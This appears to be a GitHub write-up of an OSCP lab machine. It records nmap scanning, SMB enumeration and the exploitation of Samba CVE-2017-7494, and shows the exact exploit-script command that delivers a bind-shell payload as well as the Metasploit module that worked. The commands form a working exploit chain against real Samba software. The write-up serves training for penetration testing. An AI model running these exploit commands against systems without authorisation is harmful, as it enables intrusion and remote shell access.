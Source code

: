 # Susie OSCP Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -p- -sV -oA fulloscp_146 -T4 10.11.1.146``

![image](https://user-images.githubusercontent.com/123066149/232694983-90eab4ce-ea30-4a6d-b8ad-f8e9afe06711.png)

``nmap -sC -sV -oA oscp_146 -T4 10.11.1.146``

![image](https://user-images.githubusercontent.com/123066149/232695163-76739356-f0f6-420a-98cf-33bd6aff143f.png)

# ${{\color{purple}Initial Foothold}}\ $

``nmap --script smb-vuln-cve-2017-7494 --script-args smb-vuln-cve-2017-7494.check-version -p445 10.11.1.146``

![image](https://user-images.githubusercontent.com/123066149/232695631-8e29419d-bf53-4f11-bec0-4cd6aa5cd75e.png)

``smbmap -H 10.11.1.146``

![image](https://user-images.githubusercontent.com/123066149/232695874-07a4235a-607d-4730-b313-5136f43e7d8a.png)

``searchsploit samba 4.5``

![image](https://user-images.githubusercontent.com/123066149/232696138-d6553032-0abf-4d2e-937b-ee5394af245b.png)

# ${{\color{purple}Exploitation}}\ $

### I used this exploit for the exploitation part :

https://github.com/opsxcq/exploit-CVE-2017-7494

![image](https://user-images.githubusercontent.com/123066149/232697136-b2ea7ad6-e702-4de9-a38d-3dc459545b96.png)

### I used this ressource for help me :

https://redteamzone.com/EternalRed/

![image](https://user-images.githubusercontent.com/123066149/232698850-ba6d7f77-73ad-4714-bc60-166966e32a65.png)

### I userd ``libbindshell-samba.so`` it's a bind shell on port 6699 :
### Susishare is the name of the share and ``/SusieShare/libbindshell-samba.so`` is a path of the .so payload
### User and pass are not important because it's no authentification share 

``python2.7 exploit.py -t 10.11.1.146 -e libbindshell-samba.so -s SusieShare -r /SusieShare/libbindshell-samba.so -u grest -p guest -P 6699``

### I don't have a shell with this methode :

![image](https://user-images.githubusercontent.com/123066149/232699367-1215ef49-253a-4687-b874-395372d75ad1.png)

### After trying different methods change the payload change the path of the executable I did not succeed to exploit it manually.
### I used metasploit and noticed that it was using an internal path :

``search samba``

``use exploit/linux/samba/is_known_pipename``

`` set RHOSTS 10.11.1.146``

``exploit``

![image](https://user-images.githubusercontent.com/123066149/232703390-5da2ceae-d84c-415c-a787-b170ce0fb0f2.png)

# ${{\color{purple}Privilege Escalation}}\ $

![image](https://user-images.githubusercontent.com/123066149/232703497-ab44b5f3-2e2c-4a5f-aef5-af4225a13910.png)

# ${{\color{purple}Points of Improvement}}\ $

* Test this exploit on another vulnerable target
